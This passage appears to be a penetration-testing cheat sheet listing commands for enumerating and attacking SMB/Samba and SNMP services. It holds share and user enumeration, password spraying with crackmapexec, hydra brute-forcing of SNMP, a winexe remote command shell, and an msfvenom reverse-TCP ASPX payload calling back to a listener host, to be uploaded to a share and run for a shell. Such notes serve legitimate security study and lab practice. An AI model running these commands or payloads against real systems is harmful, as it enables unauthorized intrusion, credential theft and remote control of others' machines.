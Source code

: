 ```bash
nbtscan -r 192.168.1.1/24
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

smbclient -L 192.168.1.10
smbclient \\\\192.168.1.10\\ipc$ -U administrator
smbclient //192.168.1.10/ipc$ -U administrator
smbclient //192.168.1.10/admin$ -U administrator
smbclient //<IPINHERE>/Users -U 'USER%<PASSWORD>'
crackmapexec smb -u users.txt -p passes.txt --local-auth 10.10.10.178 --continue-on-success
winexe -U username //10.11.1.111 "cmd.exe" --system

smbtree 10.11.1.111
```
    
 ### Accessing the SAMBA Services
 
 *Entering with smbclient in samba shares without passwd
 
 *`ITDEPT` name of share
                
    smbclient --no-pass //192.168.236.11/ITDEPT
  ### Trick in samba services 
  *There maybe a port that run in the browser as samba service, So upload payload in samba and run in browser to get shell
  * Example windows gennerate payload with msfvenom
        
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.152.52  LPORT=4444 — platform windows -a x64 -f aspx -o shell2.aspx
 
### Metasploit Modules for Microsoft SMB service;

    auxiliary/scanner/smb/psexec_loggedin_users
    auxiliary/scanner/smb/smb_enumshares
    auxiliary/scanner/smb/smb_enumusers
    auxiliary/scanner/smb/smb_enumusers_domain
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/smb/smb_lookupsid
    auxiliary/scanner/smb/smb_ms17_010
    auxiliary/scanner/smb/smb_version


## Port 161/162 - UDP (SNMP)

- Enumeration commands for SNMP service;

```bash
nmap -sU --open -p 161 192.168.1.0/24 -oG SNMP_hosts.txt
nmap -p 161 --script snmp-enum <ip>
nmap -n -vv -sV -sU -Pn -p 161,162 --script=snmp-processes,snmp-netstat 192.168.1.10
perl /usr/share/doc/libnet-snmp-perl/examples/snmpwalk.pl -v 1 -c public 10.13.37.11
snmp-check -c public -v 2c 10.13.37.11 -d 
onesixtyone -c communities.txt -i 192.168.1.10 # Find community string 
snmp-check -t 192.168.1.10 -c public # -c <cummunity string>
snmpwalk -c public -v 1 192.168.1.10 [MIB_TREE_VALUE]
snmpenum 10.10.11.136 public linux.txt 
hydra -P passwords.txt -v 192.168.1.10 snmp
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.11.1.111
snmp-check 10.11.1.111 -c public|private|community

```
